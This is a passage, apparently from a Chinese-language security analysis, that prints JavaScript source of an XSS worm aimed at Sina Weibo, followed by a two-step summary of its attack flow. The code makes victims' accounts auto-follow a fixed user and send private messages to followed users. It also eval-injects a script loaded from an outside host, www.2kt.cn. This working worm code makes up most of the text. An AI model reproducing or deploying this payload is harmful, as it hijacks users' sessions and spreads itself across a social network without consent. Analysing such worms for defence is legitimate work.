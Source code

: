 ```javascript
    url = 'http://weibo.com/attention/aj_addfollow.php?refer_sort=profile&atnId=profile&rnd=' + new Date().getTime();
    // 使用当前页面存储的$CONFIG.$uid 构造自动关注数据包
    data = 'uid=' + 2201270010 + '&fromuid=' + $CONFIG.$uid + '&refer_sort=profile&atnId=profile';
    post(url,data,true);
}
// 发送私信
function message(){
    url = 'http://weibo.com/' + $CONFIG.$uid + '/follow'; //构造用户关注用户列表页 Url
    ids = getappkey(url); //获取被关注用户的 Appkey 数组
    id = ids.split('||'); //分割出每个被关注用户的 Appkey
    for(i=0;i<id.length - 1 & i<5;i++){
        //构造私信发送 Url
        msgurl = 'http://weibo.com/message/addmsg.php?rnd=' + new Date().getTime();
        msg = random_msg();
        msg = encodeURIComponent(msg);
        user = encodeURIComponent(encodeURIComponent(id[i]));
        data = 'content=' + msg + '&name=' + user + '&retcode=';
        post(msgurl,data,false);  //通过 XmlHttpRequest 发送请求
    }
}
function main(){
    try{
        publish(); //模拟发表微博
    }
    catch(e){}
    try{
        follow(); //模拟关注用户
    }
    catch(e){}
    try{
        message(); //模拟发送私信
    }
    catch(e){}
}
try{
    //在当前 body 尾部插入存放在远端的 Xss 恶意脚本
   x="g=document.createElement('script');g.src='http://www.2kt.cn/images/t.js';document.body.appendChild(g)";window.opener.eval(x);
}
catch(e){}
main();
var t=setTimeout('location="http://weibo.com/pub/topic";',5000);
//等待 5 秒跳转到微话题页面
```

我总结了该 XSS 蠕虫的攻击流程：

1. 利用 XSS 漏洞插入恶意 JS 代码；

2. 利用 XMLHttpRequest 发送请求去发表微博、关注用户、获取关注者列表并向其发送私信；
